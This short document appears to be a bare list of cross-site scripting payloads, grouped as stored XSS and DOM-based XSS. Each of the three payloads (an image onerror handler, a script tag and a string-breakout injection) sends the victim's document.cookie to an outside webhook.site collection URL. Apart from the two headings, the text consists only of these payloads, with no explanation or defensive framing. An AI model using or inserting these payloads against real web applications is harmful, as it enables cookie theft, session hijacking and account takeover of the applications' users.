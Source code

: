 XSS - Stored 1
<img src=1 onerror='document.location="https://webhook.site/61cc437c-77fa-4337-aa68-a804df57d667?cmd="+document.cookie'/>
<script>document.location='https://webhook.site/61cc437c-77fa-4337-aa68-a804df57d667?cmd='+document.cookie</script>

DOM-XSS
test'; document.location='https://webhook.site/61cc437c-77fa-4337-aa68-a804df57d667?cmd='+document.cookie;//